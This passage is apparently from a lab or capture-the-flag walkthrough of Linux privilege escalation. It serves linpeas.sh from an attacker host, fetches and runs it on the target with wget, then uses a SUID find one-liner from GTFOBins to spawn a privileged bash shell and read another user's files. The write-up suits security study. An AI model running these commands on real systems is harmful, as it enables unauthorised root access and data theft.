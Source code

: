 ```bash
sudo -l
```
And this username does not have the sudo privilege.
Lets use linpeas script. This script will find all vulnerablities that are availabe in the target the system.So first download it from github.
https://github.com/peass-ng/PEASS-ng/releases
click->linpeas.sh
And transfers  the scriptinto the target system by using http connection via port 8000
I'm using python for the connection.
```bash
python3 -m http.server
```
And get the file in target system using wget cmd.
```bash
wget http://192.168.0.4:8000/linpeas.sh
```
<img src="./img/Screenshot 2024-09-06 231733.png"></img>
And make the file executable.
```bash
chmod +x linpeas.sh
```
And now run the script.
```bash
./linpeas.sh
```
By analyzing  the output  there exist some critical files under the "Files with interesting permissions"
They are /sed,/find,/gdb.
Goto GTFOBins site: https://gtfobins.github.io/
The user arturo does not have a sudo privilege.So search for it in GTFOBins.
Under /find in GTFOBins  found a SUID scmd
```bash
find . -exec /bin/bash -p \; -quit
```
Now we got bash shell.
Now try to change the directory into Denver
successfully changed and now list all files.
```bash
ls -la
```
We got two files note.txt and secret_diary files ,cat that out.